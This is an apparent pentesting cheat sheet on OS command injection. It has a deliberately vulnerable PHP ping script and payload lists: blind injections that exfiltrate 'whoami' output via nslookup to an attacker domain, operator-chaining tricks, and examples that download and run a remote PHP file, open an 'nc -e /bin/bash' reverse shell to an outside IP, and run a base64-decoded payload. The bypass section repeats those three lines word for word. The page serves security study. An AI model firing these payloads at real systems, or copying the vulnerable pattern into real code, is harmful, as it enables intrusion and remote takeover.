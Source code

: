 # Command Injection and Execution

>[!tip]
>It occurs when, due to incorrect input sanitization, a web app using system commands mistakenly executes malicious commands in addition to the one it was designed for.

For example:

```php
<?php
if (isset($_GET['ip'])) {
    $ip_valore = $_GET['ip'];
    $ping_result = system("ping {$ip_valore}");
    echo ($ping_result)
}
?>
```

Submitting as a payload the value `127.0.0.1 ; ifconfig` the app will execute `ping 127.0.0.1 ; ifconfig`, executing our injected code.

## Blind OS command injection

```
& ping -c 10 127.0.0.1 &
& whoami > /var/www/static/whoami.txt &
& nslookup kgji2ohoyw.web-attacker.com &
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

## Concatenation symbols

- `;` : At least one of the two commands must be valid
- `&` : At least one of the two commands must be valid
- `|` : At least one of the two commands must be valid
- `&&` : Both commands must be valid, otherwise nothing will be executed
- `||` : Both commands must be valid, otherwise nothing will be executed
- `%0a`: New line, sometimes special characters are not checked and allow the execution of other commands

### Extended list

```bash
# Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

# Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands

# Not execute but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command

# Examples
vuln=127.0.0.1 %0a wget https://web.es/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php
vuln=127.0.0.1%0anohup nc -e /bin/bash 51.15.192.49 80
vuln=echo PAYLOAD > /tmp/pay.txt; cat /tmp/pay.txt | base64 -d > /tmp/pay; chmod 744 /tmp/pay; /tmp/pay
```

## Bypasses

>[!tip]
>Bypass bash restrictions: https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions

```bash
vuln=127.0.0.1 %0a wget https://web.es/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php
vuln=127.0.0.1%0anohup nc -e /bin/bash 51.15.192.49 80
vuln=echo PAYLOAD > /tmp/pay.txt; cat /tmp/pay.txt | base64 -d > /tmp/pay; chmod 744 /tmp/pay; /tmp/pay
```

# Command Fuzzing List

- [https://github.com/payloadbox/command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)
- [https://github.com/PortSwigger/command-injection-attacker](https://github.com/PortSwigger/command-injection-attacker)

# External References

- [Hunting asynchronous vulnerabilities](https://portswigger.net/research/hunting-asynchronous-vulnerabilities)
